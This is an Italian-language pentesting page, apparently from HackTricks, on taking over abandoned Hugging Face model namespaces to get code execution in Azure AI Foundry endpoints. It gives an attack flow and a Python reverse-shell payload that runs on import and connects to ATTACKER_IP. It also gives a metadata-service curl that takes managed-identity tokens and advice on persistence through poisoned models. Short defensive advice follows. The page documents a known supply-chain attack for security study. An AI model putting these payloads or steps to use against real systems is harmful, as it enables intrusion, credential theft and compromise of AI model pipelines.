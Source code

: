 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Azure AI Foundry Model Catalog include molti modelli Hugging Face (HF) per il deployment one-click.
- Gli identificatori dei modelli HF sono Author/ModelName. Se un autore/org HF viene cancellato, chiunque può registrare nuovamente quell'author e pubblicare un modello con lo stesso ModelName allo stesso percorso legacy.
- Pipeline e cataloghi che risolvono solo per nome (nessun commit pinning/integrity) risolveranno in repo controllati dall'attaccante. Quando Azure deploya il modello, il codice di loader può essere eseguito nell'ambiente dell'endpoint, concedendo RCE con i permessi di quell'endpoint.

Casi comuni di takeover HF:
- Ownership deletion: il vecchio path risponde 404 fino al takeover.
- Ownership transfer: il vecchio path fa 307 al nuovo author mentre il vecchio author esiste. Se il vecchio author viene poi cancellato e ri-registrato, il redirect si rompe e il repo dell'attaccante viene servito al percorso legacy.

## Identificare namespace riutilizzabili (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Flusso di attacco end-to-end contro Azure AI Foundry

1) Nel Model Catalog, trova modelli HF i cui autori originali sono stati eliminati o trasferiti (vecchio autore rimosso) su HF.
2) Ri-registrare l'autore abbandonato su HF e ricreare il ModelName.
3) Pubblica un repo dannoso con loader code che si esegue su import o richiede trust_remote_code=True.
4) Distribuisci il legacy Author/ModelName da Azure AI Foundry. La piattaforma recupera il repo dell'attaccante; il loader si esegue all'interno del container/VM dell'endpoint Azure, ottenendo RCE con i permessi dell'endpoint.

Esempio di frammento di payload eseguito su import (solo a scopo dimostrativo):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Note
- Le distribuzioni di AI Foundry che integrano HF tipicamente clonano e importano moduli del repo referenziati nella config del modello (es., auto_map), il che può innescare l'esecuzione di codice. Alcuni percorsi richiedono trust_remote_code=True.
- L'accesso di solito corrisponde alle autorizzazioni del managed identity/service principal dell'endpoint. Trattalo come un initial access foothold per data access e lateral movement all'interno di Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Enumera le variabili d'ambiente e gli endpoint MSI per i token:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Controlla lo storage montato, gli artefatti dei modelli e i servizi Azure raggiungibili con il token acquisito.
- Considera persistence lasciando poisoned model artifacts se la piattaforma effettua nuovamente un pull da HF.

## Indicazioni difensive per gli utenti di Azure AI Foundry

- Blocca i modelli per commit quando li carichi da HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Rispecchiare modelli HF verificati in un registro interno affidabile e distribuirli da lì.
- Scansionare continuamente codebase e defaults/docstrings/notebooks alla ricerca di Author/ModelName hard-coded che siano cancellati/trasferiti; aggiornare o fissare (pin).
- Verificare l'esistenza dell'author e la provenienza del modello prima del deployment.

## Criteri di riconoscimento (HTTP)

- Autore cancellato: pagina author 404; legacy model path 404 fino al takeover.
- Modello trasferito: legacy path 307 verso un nuovo author mentre il vecchio author esiste; se il vecchio author viene poi cancellato e ri-registrato, il legacy path serve contenuto dell'attaccante.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Riferimenti incrociati

- Vedi metodologia più ampia e note sulla catena di fornitura:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Riferimenti

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
